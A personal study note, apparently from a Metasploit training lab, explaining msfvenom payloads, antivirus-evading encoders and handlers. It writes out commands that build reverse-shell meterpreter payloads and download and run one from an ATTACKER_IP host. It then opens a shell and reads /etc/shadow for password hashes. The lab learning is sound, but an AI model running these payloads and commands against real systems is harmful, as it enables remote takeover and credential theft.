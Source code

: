 
### What is msfvenom?
-------
Allows access to all payloads available in Metasploit framework
- Create payloads in different formats
- Create payloads for diff target systems

`msfvenom --list formats` - lists supported output formats.


**Encoders**
- Encode the payload
- Effective against some antivirus
- Learn methods to inject shell code is **more viable**
- **Example**: `msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.186.44 -f raw -e php/base64`
	- PHP Version of Meterpreter was encoded in base64 and the output format was raw


**Handlers**
- Accept incoming connections generated by MSF venom payload
- **Catching a shell** -> Receive a connection from a target.
- `use exploit/muli/handler` to receive the incoming connection.


**Learn:**
- A reverse shell in the context of MSF venom, encoders, and handlers refers to a type of shell access where the **target machine initiates a connection back to the attacker’s machine, giving the attacker remote control.**

**Linux Executable and Linkable Format (elf)**
`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`


**Note**: All of the examples above are reverse payloads. This means you will need to have the exploit/multi/handler module listening on your attacking machine to work as a handler. You will need to set up the handler accordingly with the payload, LHOST and LPORT parameters. These values will be the same you have used when creating the msfvenom payload.


### Exercises
-------------------
- **Opened 3 Terminals**
	- (1) msfvenom
	- (2) attacker machine
	- (3) ssh into victim machine (murphy)

- Created a Linux meterpreter reverse_tcp payload using `msfvenom`
	- `msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > shell.elf`\
	- Replace LHOST with with Attacker IP, LPORT with 4444 (Default)

- Create an HTTP Server to Serve the shell.elf
	- `python3 -m http.server 9000`
	- Listens on port 9000 for incoming connections

- **On Victim Terminal (machine)**
	- GET shell.elf
	- `wget http://ATTACKER_IP:9000/shell.elf`
	- chmod +777 shell.elf (grants permission to exec)
	- DO NOT RUN yet

- Open `msfconsole` on the 3rd Terminal
- use `exploit/multi/handler`
- This exploit defaults to a generic_reverse_tcp_shell
- We must match it to ours `linux/x86/meterpreter/reverse_tcp`
- Set LHOST and LPORT To our Attacker Configuration
- `run`
- Waiting for Connection 

- On VICTIM TERMINAL
	- ./shell.elf

- **Now,** we have a meterpreter shell on our attacker machine and can execute shell commands
- `cd /etc/
- `cat shadow (linux passwords`)
- ON WINDOWS (hashdump)

**Retrieve HASH of USER**
